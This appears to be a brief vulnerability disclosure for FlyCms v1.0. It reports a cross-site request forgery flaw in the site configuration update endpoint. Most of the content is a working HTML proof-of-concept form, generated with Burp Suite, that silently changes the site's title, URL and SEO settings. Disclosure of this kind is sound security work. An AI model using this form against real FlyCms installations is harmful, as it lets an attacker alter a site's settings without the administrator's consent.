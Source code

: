 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component system/site/webconfig_updagte

![图片1](https://github.com/zouyang0714/cms/assets/154772814/a00f9639-11ea-40ba-80a6-792293783cbf)

Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/site/webconfig_updagte" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="fly_title" value="cscs123" />
      <input type="hidden" name="fly_url" value="http&#58;&#47;&#47;www&#46;28844&#46;com" />
      <input type="hidden" name="logo" value="" />
      <input type="hidden" name="fly_seo_title" value="123" />
      <input type="hidden" name="fly_seo_keywords" value="123" />
      <input type="hidden" name="fly_seo_description" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![图片](https://github.com/zouyang0714/cms/assets/154772814/a3a9e77e-3c24-4c84-a1a1-74d4498dc706)

Successed

![图片3](https://github.com/zouyang0714/cms/assets/154772814/0d1fbf7d-aac6-4230-a69d-c4b432cf0240)
